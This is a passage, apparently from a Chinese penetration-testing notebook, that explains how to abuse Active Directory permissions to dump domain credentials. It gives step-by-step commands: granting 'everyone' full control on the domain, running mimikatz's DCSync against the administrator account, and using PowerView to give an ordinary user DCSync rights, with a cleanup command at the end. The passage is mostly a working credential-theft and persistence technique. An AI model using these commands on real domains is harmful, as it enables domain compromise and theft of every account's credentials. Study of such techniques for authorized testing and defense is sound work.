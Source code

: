 	服务器管理器找到域->查看->启用高级功能->右键属性->安全->everyone完全控制
	>mimikatz.exe "lsadump::dcsync /domain:zone.com /user:administrator" exit
![image](/assets/Pentest_Note/master/img/498.png)

	或使用powerview添加一条ACL(域控执行)
	>Add-DomainObjectAcl -TargetIdentity "DC=ZONE,DC=COM" -PrincipalIdentity 域内用户 -Rights DCSync -Verbose 
![image](/assets/Pentest_Note/master/img/499.png)

	使用此账户在域内任意主机可使用mimikatz的dcsync功能导出凭据
![image](/assets/Pentest_Note/master/img/500.png)

	移除ACL
	>Remove-DomainObjectAcl -TargetIdentity "DC=zone,DC=com" -PrincipalIdentity 用户 -Rights DCSync -Verbose